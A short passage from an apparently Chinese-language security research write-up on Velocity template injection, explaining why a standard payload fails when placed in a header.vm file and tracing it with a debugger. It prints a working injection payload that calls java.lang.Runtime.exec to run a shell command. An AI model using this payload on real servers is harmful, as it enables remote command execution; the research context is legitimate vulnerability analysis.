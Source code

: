 ### 3、为什么常规的 payload 不行

```plain
#set($x=$i18n.getClass())
    #set($rt=$x.class.forName('java.lang.Runtime'))
    #set($chr=$x.class.forName('java.lang.Character'))
    #set($str=$x.class.forName('java.lang.String'))
    #set($ex=$rt.getRuntime().exec('touch /tmp/success66'))   
    $ex.waitFor()
```

这个是 velocity 模版注入的常规 payload，但是如果我们把他放到 header.vm 文件当中去，可以发现无法触发这个 payload。然后我们去邮件看看

[![](assets/1708149766-04958da4e3d1137c5f093a33e149de73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173010-9d8774d6-d431-1.png)

直接把断点下在这两行，然后顺着堆栈往上找：

[![](assets/1708149766-ddd66e86febe1205774c167a99a6c560.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173028-a8763af8-d431-1.png)
